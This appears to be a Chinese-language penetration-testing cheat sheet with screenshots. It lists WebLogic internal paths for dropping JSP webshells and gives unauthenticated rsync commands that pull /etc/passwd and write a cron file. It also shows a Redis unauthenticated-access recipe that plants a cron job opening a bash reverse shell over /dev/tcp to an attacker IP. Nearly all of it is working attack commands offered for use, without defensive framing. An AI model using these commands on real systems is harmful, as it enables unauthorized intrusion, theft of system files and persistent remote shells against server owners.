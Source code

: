 ![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1629451965192-d1bf811a-0d5f-4285-9e41-8b582e141d9d.png#height=173&id=YdVve&originHeight=230&originWidth=600&originalType=binary&ratio=1&size=16475&status=done&style=none&width=450)


C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\bea_wls9_async_response\8tpkys\war\
```python
servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp
/bea_wls_internal/test.jsp

servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.jsp
/wls-wsat/test.jsp

servers/AdminServer/tmp/_WL_internal/bea_wls9_async_response/8tpkys/war/test.jsp
/_async/test.jsp

servers/AdminServer/tmp/_WL_internal/bea_wls_deployment_internal/gyuitk/war/test.jsp
/bea_wls_deployment_internal/shell.jsp

 /Oracle/Middleware/wlserver/server/lib/consoleapp/webapp/images/
 /console/images/

/home/sxit/Oracle/Middleware/user_projects/domains/dc_domain/servers/server80/tmp/_WL_internal/uddiexplorer/qjjddh/war/111.jsp
http://10.64.15.108/uddiexplorer/111.jsp
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1641913450039-38400504-f518-4139-9802-1993b6a59237.png#clientId=ubc7057fa-d780-4&from=paste&height=516&id=ue93d42ac&originHeight=1032&originWidth=1352&originalType=binary&ratio=1&size=166467&status=done&style=none&taskId=ue23fc403-cf41-48c2-9b35-edc262c1b0b&width=676)<br />[http://17.19.0.10:7001/_async/](http://17.19.0.10:7001/_async/error_505.jspx)
<a name="5TCg7"></a>
## solr
![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616294398382-dc482d1d-3e4e-4c2c-8e35-2a922a005859.png#height=344&id=Y1hkp&originHeight=688&originWidth=1026&originalType=binary&ratio=1&size=73221&status=done&style=none&width=513)


<a name="irADw"></a>
### rsync未授权
root@kali:~/vulmap-0.6# rsync rsync://ip:873/<br />src             src path<br />root@kali:~/vulmap-0.6# rsync rsync://ip:873/src<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1615709407930-5ff2d284-7ad7-4776-9488-caa5fbfb6c68.png#height=319&id=RkBX4&originHeight=425&originWidth=556&originalType=binary&ratio=1&size=140903&status=done&style=none&width=417)<br />下载：<br />rsync -av rsync://your-ip:873/src/etc/passwd ./<br />写入:<br />rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell

<a name="L6yKT"></a>
## redis未授权
**反弹shell**，需要判断是否出网
```
redis-cli -h ip
#192.168.1.100 你的ip，8888端口  -i 表示是交互式的
> set shell "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/ip/端口 0>&1\n\n"
> config set dbfilename root
> config set dir /var/spool/cron
> save
> exit
```
<br />**免密钥登陆**<br />本地：ssh-keygen<br />cd /root/.ssh<br />ssh-copy-id 服务器IP<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611332427761-4f2b92c5-fc66-4c5e-b1b9-97b3dab2c9f8.png#height=173&id=LNL1o&originHeight=346&originWidth=1088&originalType=binary&ratio=1&size=348539&status=done&style=none&width=544)
